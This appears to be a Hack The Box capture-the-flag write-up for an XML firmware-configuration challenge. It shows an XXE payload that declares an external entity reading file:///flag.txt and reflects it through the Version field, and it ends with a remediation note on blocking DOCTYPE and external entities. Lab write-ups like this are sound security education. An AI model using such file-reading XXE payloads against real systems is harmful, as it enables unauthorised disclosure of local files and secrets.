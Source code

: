 This HTB challenge was a website with a page containing a configuration file for firmware updates as can be seen below.
This was the most promising entry point through
- Command Injection
- Reverse Shell Spawning, and
- XXE
  
Since there is no logic to execute commands, command injection and reverse shell does not work. 
The trick, the trick therefore is to use XXE and return the file information in the Version parameter since it is the only one that is reflected back to the user.
The payload is below

```
<!--?xml version="1.0" ?-->
<!DOCTYPE FirmwareUpdateConfig [<!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
Add the above to the existing configuration file and change only the  Version parameter
```
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version> # This is the injection point
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```
Remediation
- Do not try to sanitise user input. Instead, block DOCTYPE and External Entities. If the parser cannot process DOCTYPE and External Entities, there is no XXE vlnerability.
  
<img width="1190" height="1065" alt="Jailbreak2" src="https://github.com/user-attachments/assets/7e5da865-6f41-4d21-aec0-28c90f6e9cee" />
<img width="1205" height="1073" alt="Jailbreak3" src="https://github.com/user-attachments/assets/f0fd712b-55d7-42e8-8faf-ca4794f8bb33" />



